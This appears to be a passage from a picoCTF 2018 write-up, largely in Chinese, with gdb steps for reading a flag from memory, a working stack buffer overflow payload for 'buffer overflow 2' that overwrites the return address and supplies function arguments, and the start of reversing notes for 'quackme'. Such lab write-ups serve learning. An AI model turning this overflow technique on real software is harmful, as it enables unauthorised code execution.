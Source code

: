2. 斷點下在<main+65>，`flag_buf`在`0x6013e8`
``` b
0x00000000004007a7 <+33>:	mov    %rax,0x200c3a(%rip)        # 0x6013e8 <flag_buf>
0x00000000004007ae <+40>:	mov    0x200c33(%rip),%rax        # 0x6013e8 <flag_buf>
```

3. 印出flag

```b
gdb: x *0x6013e8
0x1507010:	"picoCTF{XXXXXXXXXXXXXX}"
```

---

## buffer overflow 2 (Binary Exploitation)

> Alright, this time you'll need to control some arguments. Can you get the flag from this program? You can find it in /problems/buffer-overflow-2_0_738235740acfbf7941e233ec2f86f3b4 on the shell server. Source.

* 參考
    * [cyclic, dmesg指令，一定要學 ><](https://github.com/Dvd848/CTFs/blob/master/2018_picoCTF/buffer%20overflow%202.md)
    * [pwntools doc](http://docs.pwntools.com/en/stable/intro.html)

```
Ice1187@pico-2018-shell:/problems/buffer-overflow-2_0_738235740acfbf7941e233ec2f86f3b4$ python -c "print 'a'*112 + '\xcb\x85\x04\x08' + 'a'*4 + '\xef\xbe\xad\xde' + '\xde\xc0\xad\xde'" | ./vuln 
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ�����
picoCTF{XXXXXXXXXXXXXXXXXXX}Segmentation fault (core dumped)
```

---

## quackme (Reversing)

> Can you deal with the Duck Web? Get us the flag from this program. You can also find the program in /problems/quackme_2_45804bbb593f90c3b4cefabe60c1c4e2.

0. note while dis_asm
```
# input: aaaaaaaaaaaaaaaaaaaa

<do_magic>:

ebp-0x14: input         # a*20
ebp-0x10: len of input  # 21
ebp-0xc : a variable created by malloc


<do_magic+93>:

# The C library ref
#
# 2.14.6 memset
# Declaration:
#
# void *memset(void *str, int c, size_t n);
#
# Copies the character c (an unsigned char) to the first n characters of the string pointed to by the argument str.
#
# The argument str is returned.

```
